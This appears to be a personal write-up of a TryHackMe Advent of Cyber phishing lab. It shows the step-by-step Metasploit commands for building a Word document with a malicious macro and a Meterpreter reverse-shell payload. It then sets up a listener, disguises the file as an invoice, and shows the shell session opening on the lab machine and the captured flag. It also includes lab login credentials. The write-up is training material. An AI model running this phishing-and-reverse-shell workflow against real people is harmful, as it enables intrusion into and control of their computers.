 ```yaml
---
title: Day 10 He had a brain full of macros, and had shells in his soul.
date: 2024-12-14 00:00:00 +0200
categories: [Cybersecurity, Tryhackme]
tags:
  - Advent_of_cyber
  - THM
  - Writeups
by: Mahmud
---
```

### Objective :
##### to now 
-  Phishing Attacks 
   its part of social engineer it aim's on send a bait to large number of people and make the to open or download malicious link or file
-  Macros
   is set of instructor or program that MS Office user can do to automate some tasks and its so powerful
- Metasploite
  The world's most used penetration testing _framework_. Knowledge is power,

****
### Attack Plane
1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

****

1. first start machine and connect Kali to the network using OpenVPN and your credential config file 
   
2. in terminal open metasploite by type `msfconsle`
3. now we will create malicious doc in `msf6>` start type
- `set payload windows/meterpreter/reverse_tcp` 
     specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro` 
  specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` 
  specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox (Kali)
- `set LPORT 8888` 
  specifies the port number you are going to listen on for incoming connections on the AttackBox (Kali)
- `show options` 
  shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example

```terminal 
msf6 exploit(multi/fileformat/office_word_macro) > show options 

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting     Required  Description
   ----            ---------------     --------  -----------
   CUSTOMTEMPLATE  /usr/share/metaspl  yes       A docx file that will be used
                   oit-framework/data            as a template to build the exp
                   /exploits/office_w            loit
                   ord_macro/template
                   .docx
   FILENAME        msf.docm            yes       The Office document macro file
                                                  (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thre
                                        ad, process, none)
   LHOST     10.9.4.230       yes       The listen address (an interface may be
                                         specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows



View the full module info with the info, or info -d command.
```
{: .nolineno }

- `exploit` 
  generates a macro and embeds it in a document
- `exit` 
  to quit and return to the terminal
  
1. the generated file `msf.docm` stored at `/home/kali/.msf4/local/msf.docm`
2. so now when victim open the file he will see a regular word file the he can't see the code easily 
3. this is the macro 


![](./assets/img/Pasted image 20241218235024.png){: .shadow }


- `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
- `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
- `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

#### Listening for Incoming Connections
1. use `msfconsle` again
2.  now follow the steps :
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` 
- `set LHOST CONNECTION_IP` Attack box or kali IP
- `set LPORT 8888` Attack box or kali IP
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell
1.  need to send the document to `marta@socmas.thm` by go to `http://MachineIP`then   and login via given credential  
   - Email: `info@socnas.thm`
   - Password: `MerryPhishMas!
2. for best practice change document name to something relevant like such as `invoice.docm` or `receipt.docm`  

```shell-session
──(kali㉿kali)-[~/.msf4/local]
└─$ mv msf.docm /home/kali/Desktop           
┌──(kali㉿kali)-[~/Desktop]
└─$ mv msf.docm invoice.docm
```
{: .nolineno }   

1. after send the document you will see in `msfconsle` 

```shell-session
[*] Started reverse TCP handler on 10.9.4.230:8888 
[*] Sending stage (176198 bytes) to 10.10.242.146
[*] Meterpreter session 1 opened (10.9.4.230:8888 -> 10.10.242.146:50185) at 2024-12-19 00:17:45 +0200
```
{: .nolineno }


1. you can see that the `msf6` turn into `meterpreter >` that mean the connection established and we are in the victim PC 
2. to find flag navigate to Desktop by

```shell-session
{: .nolineno }

meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
Listing: c:\users\Administrator\Desktop
=======================================

Mode            Size  Type  Last modified             Name
----            ----  ----  -------------             ----
100666/rw-rw-r  527   fil   2016-06-21 17:36:17 +020  EC2 Feedback.website
w-                          0
100666/rw-rw-r  554   fil   2016-06-21 17:36:23 +020  EC2 Microsoft Windows Gui
w-                          0                         de.website
100666/rw-rw-r  282   fil   2021-03-17 17:13:27 +020  desktop.ini
w-                          0
100666/rw-rw-r  23    fil   2024-11-12 05:42:45 +020  flag.txt
w-                          0

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}
meterpreter >
```
{: .nolineno }

1. So the flag is `THM{PHISHING_CHRISTMAS}`
